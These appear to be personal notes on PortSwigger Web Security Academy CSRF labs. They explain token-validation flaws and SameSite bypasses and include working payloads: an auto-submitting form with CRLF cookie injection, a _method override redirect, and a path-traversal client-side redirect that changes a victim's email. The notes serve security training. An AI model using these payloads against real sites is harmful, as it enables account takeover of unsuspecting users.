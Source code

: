 # CSRF

## Practitioner
- CSRF where token validation depends on request method
    - Notice that CSRF validation does not exist for GET requests. Use the exploit server to stage a RCE which automatically triggers a GET request to the /change-email endpoint and submits on page load.
- CSRF where token validation depends on token being present
    - Similar exploit, but it's a POST request and simply does not include the CSRF token.
- CSRF where the token is not tied to the user session
    - Similar–– craft a malicious form using the unused CSRF token from another user to trick the server.
- CSRF where token is tied to non-session cookie
- CSRF where token is duplicated in cookie
    - Since the server merely checks if the csrf token matches the cookie, we stage an exploit to update the search query parameter sink to set a fake crsf cookie, and set the csrf token to the same fake value.
    ```
    <form action="https://0ae800630314cfa683893c200074004f.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="evil@hacker.net" />
    <input type="hidden" name="csrf" value="fake" />
    </form>
    <img src="https://0ae800630314cfa683893c200074004f.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();" />
    ```
- Same site lax bypass via method override
    - The samesite attribute defaults to Lax, which means the cookie will be sent in cross-site GET requests. Craft a payload that navigates to the change-email endpoint and uses the _method query parameter to override the HTTP request method.
    ```
    <script>
    document.location = "https://0ac3000203ca9b4add16983800c00022.web-security-academy.net/my-account/change-email?email=pwnedo@web-security-academy.net&_method=POST";
    </script>
    ```

- Samesite strict bypass via client-side redirect
After posting a comment, you are briefly redirect to a page /post/comment/confirmation?postId=7. The redirect is handled client-side by the javascript file /resources/js/commentConfirmationRedirect.js:
```
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```
The postId is directly used to construct the redirection path, which canm be exploited with path traversal. We exploit this redirect path traversal to access the strict session cookie to change the email.
```
<script>
    document.location = "https://0afe00bd04a2155a81a117a3004f0014.web-security-academy.net/post/comment/confirmation?postId=../../my-account/change-email/?email=evil%40hacker.net%26submit=1"
</script>
```
